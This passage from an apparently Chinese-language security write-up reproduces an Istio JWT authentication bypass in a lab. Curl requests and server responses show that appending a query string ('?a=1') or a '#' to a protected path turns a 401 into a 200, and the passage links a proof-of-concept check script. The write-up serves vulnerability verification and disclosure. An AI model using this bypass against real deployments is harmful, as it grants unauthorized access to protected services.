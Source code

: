 可以看到返回200状态码，访问成功！接着再访问加了JWT认证的url path "/ip":  
```
 1Origin authentication failed.root@node2:~# curl -v $INGRESS_HOST/ip
 2* Trying 192.168.19.11...
 3* TCP_NODELAY set
 4* Connected to 192.168.19.11 (192.168.19.11) port 31380 (#0)
 5> GET /ip HTTP/1.1
 6> Host: 192.168.19.11:31380
 7> User-Agent: curl/7.58.0
 8> Accept: */*
 9>10< HTTP/1.1 401 Unauthorized
11< content-length: 2912< content-type: text/plain13< date: Thu， 05 Mar 2020 06:49:37 GMT14< server: istio-envoy15< x-envoy-upstream-service-time: 016

```  
  
可以看到服务端返回401 Unauthorized拒绝访问，原因是需要认证授权，证明策略生效了。我们再访问JWT认证下的path + query(通过添加”?“符号)  
```
1root@node2:~# curl -v $INGRESS_HOST/ip?a=1

```  
```
 1* Trying 192.168.19.11...
 2* TCP_NODELAY set
 3* Connected to 192.168.19.11 (192.168.19.11) port 31380 (#0)
 4> GET /ip?a=1 HTTP/1.1
 5> Host: 192.168.19.11:31380
 6> User-Agent: curl/7.58.0
 7> Accept: */*
 8>
 9< HTTP/1.1 200 OK
10< server: istio-envoy
11< date: Thu， 05 Mar 2020 06:53:00 GMT
12< content-type: application/json
13< content-length: 29
14< access-control-allow-origin: *
15< access-control-allow-credentials: true
16< x-envoy-upstream-service-time: 5
17<
18{
19"origin": "10.244.0.0"
20}
```  
  
可以看到返回为200状态码，说明不需要JWT的认证也可以访问ip这个path下的内容，从而完成绕过。  
  
同理在url后添加“#”符号也完成绕过。  
  
4**验证PoC**  
  
笔者在网上找到一个PoC可以验证此漏洞，此脚本由Google Istio团队Francois Pesce 提供[9]：  
  
https://gist.githubusercontent.com/nrjpoddar/62114128d12478abe8366404bf547b77/raw/1475213902932cc157f49fc0584b8f231e887394/check.sh[11]  
  